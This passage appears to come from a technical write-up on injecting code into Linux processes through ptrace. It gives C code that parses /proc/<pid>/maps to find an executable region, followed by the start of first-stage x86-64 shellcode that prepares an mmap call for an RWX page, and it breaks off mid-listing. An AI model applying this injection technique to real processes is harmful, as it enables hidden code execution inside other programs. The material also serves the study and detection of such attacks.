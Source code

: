 > code-injection happens via `ptrace` that does not necessarily need a writable/readable memory block to perform its actions. 

The following `C` source code snippet performs this enumeration and returns an executable address range that is searched via the `strstr` function.  

```c
PADDRESS enumAddress(pid_t pid){
        char filename[CMDLINESZ];
        FILE *fp;
        unsigned char line[1024];
        unsigned char str[20], perms[0x5];

        PADDRESS paddr = (PADDRESS) calloc(1, sizeof(ADDRESS));


        snprintf(filename, sizeof(filename), "/proc/%d/maps", pid);
        fprintf(stdout, "[+] Parsing: %s\n", filename);

        fp = fopen(filename, "r");
        if (fp == NULL){fprintf(stderr, "[!] Error Opening: %s\n\n", filename); goto end;}

        while(fgets(line, sizeof(line), fp) != NULL){
                sscanf(line, "%lx-%*lx %s %*s", &paddr->start_address, perms);
                if(strstr(perms, "x")){ break; }
        }


        return paddr;

end:
        return NULL;
}
```

### Remote Memory Mapping

A new allocated memory map in the **Virtual Address Space** of the remote process is required for the following reasons:

- This will pevent overwriting existing data in the memory of the remote process that could affect the proper execution of that remote process. 
- An **executable** page for code injection with no length restrictions limiting the second-staged payload (shellcode).  

For the allocation of this page, we need a first *stage-payload* that will be executed by the remote process to allocate memory. The executable page/memory returned by the above `enumAddress` function will be used for the execution of the following shellcode that uses `mmap` to map a new `RWX` page.

```asm
push 0x22
pop rcx

push 0xffffffffffffffff
pop r8

xor r9d, r9d;
xor esi, esi
xor rdi, rdi

push 0x7
pop rdx

mov esi, 0x01010101
xor esi, 0x01010101

```